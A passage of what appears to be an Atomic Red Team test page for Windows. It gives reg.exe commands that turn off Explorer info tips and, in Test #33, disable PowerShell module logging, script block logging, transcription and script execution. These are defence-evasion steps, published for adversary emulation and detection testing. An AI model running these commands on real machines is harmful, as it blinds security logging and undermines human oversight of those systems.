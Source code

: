 **Supported Platforms:** Windows


**auto_generated_guid:** 795d3248-0394-4d4d-8e86-4e8df2a2693f






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg  add HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowInfoTip /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowCompColor /t REG_DWORD /d 0 /f
```

#### Cleanup Commands:
```cmd
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowInfoTip /f >nul 2>&1
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced /v ShowCompColor /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #33 - Windows Powershell Logging Disabled
Modify the registry of the currently logged in user using reg.exe via cmd console to disable Powershell Module Logging, Script Block Logging, Transcription and Script Execution
see https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.PowerShell::EnableModuleLogging

**Supported Platforms:** Windows


**auto_generated_guid:** 95b25212-91a7-42ff-9613-124aca6845a8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\ModuleLogging /v EnableModuleLogging /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging /v EnableScriptBlockLogging /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell\Transcription /v EnableTranscripting /t REG_DWORD /d 0 /f
reg  add HKCU\Software\Policies\Microsoft\Windows\PowerShell /v EnableScripts /t REG_DWORD /d 0 /f
reg delete HKCU\Software\Policies\Microsoft\Windows\PowerShell /v EnableScripts /f >nul 2>&1
```
